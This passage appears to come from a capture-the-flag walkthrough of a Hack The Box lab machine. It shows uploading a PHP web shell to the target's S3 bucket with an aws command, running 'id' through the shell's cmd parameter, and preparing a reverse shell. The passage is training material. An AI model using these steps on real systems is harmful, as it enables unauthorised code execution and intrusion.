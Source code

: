 Then, we can upload this PHP shell to the  thetoppers.htb S3 bucket using the following command.![](Aspose.Words.2b1f03b8-9d16-4c0b-bf4c-68c188d36e86.065.png)

aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb![](Aspose.Words.2b1f03b8-9d16-4c0b-bf4c-68c188d36e86.066.png)

![](Aspose.Words.2b1f03b8-9d16-4c0b-bf4c-68c188d36e86.067.jpeg)

We can confirm that our shell is uploaded by navigating to [http://thetoppers.htb/shell.php. Let us ](http://thetoppers.htb/shell.php)try executing the OS command  id using the URL parameter  cmd .![](Aspose.Words.2b1f03b8-9d16-4c0b-bf4c-68c188d36e86.068.png)![](Aspose.Words.2b1f03b8-9d16-4c0b-bf4c-68c188d36e86.069.png)

http://thetoppers.htb/shell.php?cmd=id![](Aspose.Words.2b1f03b8-9d16-4c0b-bf4c-68c188d36e86.070.png)

![](Aspose.Words.2b1f03b8-9d16-4c0b-bf4c-68c188d36e86.071.jpeg)

The response from the server contains the output of the OS command  id , which verified that we have code execution on the box. Thus, let us now try to obtain a reverse shell.![](Aspose.Words.2b1f03b8-9d16-4c0b-bf4c-68c188d36e86.072.png)

Through a reverse shell, we will trigger the remote host to connect back to our local machine's IP address on the specified listening port. We can obtain the  tun0 IP address of our local machine using the following command.![](Aspose.Words.2b1f03b8-9d16-4c0b-bf4c-68c188d36e86.073.png)

ifconfig![](Aspose.Words.2b1f03b8-9d16-4c0b-bf4c-68c188d36e86.074.png)

![](Aspose.Words.2b1f03b8-9d16-4c0b-bf4c-68c188d36e86.075.jpeg)
